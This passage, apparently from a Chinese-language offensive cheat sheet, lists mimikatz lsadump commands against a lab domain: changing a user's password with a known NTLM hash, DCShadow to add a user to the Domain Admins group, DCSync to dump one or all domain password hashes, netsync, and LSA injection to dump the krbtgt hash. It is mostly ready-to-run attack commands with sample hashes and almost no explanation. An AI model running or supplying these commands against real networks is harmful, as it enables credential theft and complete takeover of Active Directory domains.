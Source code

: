 mimikatz # lsadump::cache
```

## changentlm
可用于更改用户的密码
```
mimikatz # lsadump::changentlm /server:DC.hacklab.local /user:adriane.lena /old:cded5acd2c1fc0f816c63ef317937deb /newpassword:WhatEverYouWant
```

## dcshadow
执行dcshadow攻击

修改组id
```
mimikatz # lsadump::dcshadow /object=optimus /attribute=primaryGroupID /value=512
```

执行修改
```
mimikatz # lsadump::dcshadow /push
```

## dcsync
请求域控同步从而dump出哈希

单个用户
```
mimikatz # lsadump::dcsync /domain:hacklab.local /user:hacklab\Administrator
```

所有用户
```
mimikatz # lsadump::dcsync /domain:hacklab.local /all
```

## netsync

请求目标计算机的rc4秘钥，需要dc主机的哈希
```
mimikatz # lsadump::netsync /dc:dc.hacklab.local /user:dc$ /ntlm:5b7ba7b6131a4aab1bbd60ba1a810e53 /account:win7$
```

## lsa

从内存中提取哈希值

```
mimikatz # lsadump::lsa /inject /name:krbtgt
```

> /inject : when run on a workstation, it will dump the LM and NT password hashes. When run on domain controller is will dump LM, NT, Wdigest, Kerberos keys and password history.


## packages
列出可用的windows身份验证机制

```
mimikatz # lsadump::packages
```

## postzerologon

> lsadump::postzerologon is a procedure to update AD domain password and its local stored password remotely mimic netdom resetpwd. Experimental and best situation after reboot
```